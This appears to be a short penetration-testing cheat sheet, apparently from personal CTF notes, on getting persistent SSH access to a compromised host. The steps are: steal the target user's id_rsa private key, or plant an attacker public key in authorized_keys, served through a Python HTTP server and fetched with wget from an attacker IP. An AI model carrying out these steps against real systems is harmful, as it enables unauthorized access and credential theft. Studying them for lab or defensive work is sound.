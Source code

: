 SSH with id_rsa file
---

with remote access/shell on target machine, check in `/home/<username>/.ssh/id_rsa` for the rsa file. <br>
if there, get it on attack machine and change permissions to read/write for user `chmod 600 id_rsa` <br><br>
      *NOTE: without correct permissions on that file ssh won't allow login (chmod 600 or 400)* <br><br>
after that, you should be able to ssh into target with: <br>
```
$ ssh <user>@<target_IP> -i id_rsa -p <port> *if non standard ssh port is used*
```

if the target doesn't have a generated id_rsa file you can generate your own and put the public key into the `authorized_keys` file on the target machine.<br>

to generate your own: <br>
```
$ ssh-keygen
# generates id_rsa and id_rsa.pub files in .ssh folder on local machine // follow prompts to pw protect file
```
Next, copy the content of the id_rsa.pub file and put it inside the authorized_keys file on the target machine (located in /.ssh folder). <br>

*NOTE: if there isn't an authorized_keys file in /.ssh you'll need to make one*
```
(on target machine)
/.ssh $ touch authorized_keys
# creates the file

/.ssh $ chmod 600 authorized_keys
# changes permissions for the user to read/write to file

NOTE: to get your file to target system set up python server on attack machine and use wget from target machine

(on attack machine)
$ python3 -m http.server <port>
# sets up server on your machine for target machine to grab files

(on target machine)
/.ssh $ wget http://<attacker_IP>:<port>/path/to/public/key
# grabs id_rsa_pub file

/.ssh $ cat id_rsa_pub
# displays the contents to be copied (can remove file afterwards)
 
/.ssh $ nano authorized_keys
# opens the file with nano to be edited // paste contents from the pub file here
```

After that you can ssh into target machine with your id_rsa file from attack machine.<br>
